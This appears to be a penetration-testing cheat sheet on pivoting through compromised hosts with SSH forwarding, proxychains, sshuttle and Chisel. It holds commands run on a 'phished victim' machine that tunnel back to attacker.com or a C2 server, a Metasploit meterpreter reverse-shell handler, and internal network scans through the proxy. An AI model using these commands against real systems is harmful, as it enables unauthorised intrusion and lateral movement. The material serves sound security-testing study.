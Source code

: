 # SSH Tunneling + SSHuttle and Chisel


Used for pivoting

## Local port forwarding
```bash
ssh -v -N -L localPort:targetIp:targetPort user@sshGateway <-i private_key>
```

## Remote port forwarding
* Below is the preparation that is needed to be done on the SSH Server(Pivot)
```bash
sudo echo "GatewayPorts clientspecified" >> /etc/ssh/sshd_config
sudo systemctl restart ssh
```
* Command:
```bash
ssh -R sshGatewayIp:sshGatewayPort:localIp:localPort user@sshGateway
ssh -R 127.0.0.1:2222:127.0.0.1:22 ubuntu@11.22.33.44
```

## Dynamic port forwarding with proxychains
* Has limitations: Produces inaccurate results (i.e. nmap)[^2][^3][^4]

* Proxychains preparation (Change localPort):
```bash
# Normal
sudo echo "socks4 127.0.0.1 localPort" >> /etc/proxychains.conf
```
* Command to establish connection(Basic command is just "-D"):
```bash
ssh -NfD localPort user@sshGateway
```
* Make use of proxychains:
```bash
proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
proxychains msfconsole 
proxychains rdesktop targetIP -u user -p password -g 90%
proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
proxychains firefox
```

## Dynamic port forwarding with SSHuttle
* **Recommended** and does not need root on pivot machine)
* Has limitations: Does not really work with nmap
   * Use a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) instead on the compromised host
   
```bash
sshuttle -v -r user@sshGateway network/netmask

# Using public key authentication:
sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
```

## Chisel
* **Recommended** and does not need root on pivot machine) [^5]
* Alternative for SSH(Local, Remote and Dynamic) especially on pivoting machines
    * Built on Go
    * Has ready made binary releases on Github which works on a lot of Operating Systems[^6]
        * Better to compile though
   
```bash
# Server (On your attacking machine[Kali])
./chisel server -v -p 8000 --reverse

# Port Forwarding (Commonly on the 1st compromised machine [Pivot Machine])
## Listen on Kali 4444/tcp, forward to 10.10.10.240 port 80
./chisel client -v <YOUR_KALI_IP>:8000 R:4444:10.10.10.240:80

```

* Remote/Reverse Forwarding (for *reverse connections* [i.e. reverse_tcp])
    * Quick Diagrams for the visual people

[INTERNET_ISOLATED_MACHINE] --> [Pivot_Machine] --(FIREWALL)--(INTERNET)-- [C2/Kali]
---making it seamless as if:---
[INTERNET_ISOLATED_MACHINE] =============================================> [C2/Kali]

    * From Kali: `./chisel server -v -p 8000 --reverse` From C2: `./chisel server -v -p 443 --reverse` 
    * Commonly on the 1st compromised machine [Pivot Machine]
        * Let us call this [Pivot Machine]: *PHISHEDVICTIM01.acme.local*
        * *BEWARE*: May trigger _Windows Firewall Allow/Deny_ pop-up window on this host upon running. May need to allow first or create a manual firewall entry via cli or choose a firewall port already allowed but unused by a service.
        * The command below will direct any traffic it receives on 3333/tcp to your Kali 3333/tcp

            ```batch
            chisel.exe client -v <YOUR_KALI_IP>:8000  3333:127.0.0.1:3333
            #OR
            chisel.exe client -v <YOUR_C2_domain>:443 3333:127.0.0.1:3333
            ```

    * After the command above, execute the command below on your Kali/c2 machine or something similar (i.e. `exploit/multi/handler`)
        ```bash
        nc -lnvp 3333
        #OR
        msfconsole -q -x "use exploit/multi/handler;set LPORT 3333; set LHOST eth0; set payload windows/x64/meterpreter/reverse_https;run -jz"
        ```
    * Now on the [INTERNET_ISOLATED_MACHINE]/target/victim (without direct connection to your C2/Kali) like the DC or ICS.
        * Test
            ```batch
            curl.exe PHISHEDVICTIM01.acme.local:3333
            ```
        * Use a one-liner powershell
        * C2 payload to point to `PHISHEDVICTIM01.acme.local:3333`

* Chisel Socks Proxy
    * Using `reverse` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --reverse
            sudo echo "socks5 127.0.0.1 1080" > /etc/proxychains.conf
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 R:socks
            or
            chisel.exe client -v attacker.com:8000 R:socks
            or
            chisel.exe client -v 192.168.1.5:8000 R:socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * Using `socks5` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --socks5
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 socks
            or
            chisel.exe client -v attacker.com:8000 socks
            or
            chisel.exe client -v 192.168.1.5:8000 socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * TIP
        * If the chisel server is on a cloud C2, and you want to connect from your kali(separate machine)
            * Perform step **c.** on your Kali instead, no need to do it on the chisel server(c2)
                * Just change `ssh -NfD 1080 127.0.0.1` to `ssh -NfD 1080 ubuntu@c2domain.com`


[^1]: [not so pro](https://blog.notso.pro/2019-10-24-tactical-debriefing1/)
[^2]: [MrW0r57](https://mrw0r57.github.io/2020-05-31-linux-post-exploitation-10-4/)
[^3]: [CodeProject - Grant Curell](https://www.codeproject.com/tips/634228/how-to-use-proxychains-forwarding-ports)
[^4]: [NetSec](https://netsec.ws/?p=278)
[^5]: [Download from Github](https://github.com/jpillora/chisel)
[^6]: [0xdf](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

